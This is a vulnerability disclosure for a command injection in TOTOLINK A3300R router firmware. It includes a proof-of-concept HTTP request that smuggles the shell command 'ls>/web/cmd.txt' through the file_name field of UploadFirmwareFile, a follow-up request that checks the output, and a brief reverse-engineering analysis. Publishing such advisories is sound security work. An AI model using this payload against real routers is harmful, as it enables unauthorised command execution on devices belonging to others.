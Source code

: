 # TOTOLINK A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Product: TOTOLINK A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![7def14f99b5767743ca6c793879d983b](uploads/1.png)

## Vulnerability Description

The `file_name` parameter of `UploadFirmwareFile` in `cstecgi.cgi` is controllable, and there is no verification of the input `file_name` parameter. When any error is triggered, the `file_name` parameter will be spliced into the rm- rf command and executed, which will eventually lead to command injection.

### POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 113
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/advance/config.html?time=1698345756457
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"file_name": "1|ls>/web/cmd.txt","content_length":"100","topicurl":"UploadFirmwareFile","token":"1234"}
```

injection the command "ls>/web/cmd.txt"

![image-20231027034846071](uploads/2.png)

check the result

```http
GET /cmd.txt HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
If-Modified-Since: Thu, 26 Oct 2023 19:47:12 GMT
Connection: close
```

![image-20231027035255794](uploads/3.png)

## Analyse

`sub_413700`will handle the `UploadFirmwareFile` request, this function firstly gets `file_name` value from the request body, and then pass to `CsteSystem` function.

![0dba829c8020e7e171ccee3b16a37031](uploads/4.png)

![4ae866f8e0b4170c9c30978b16800ec7](uploads/5.png)

`CsteSystem` wraps the command and then passes it to execv to execute the command.

![ana3](uploads/6.jpg)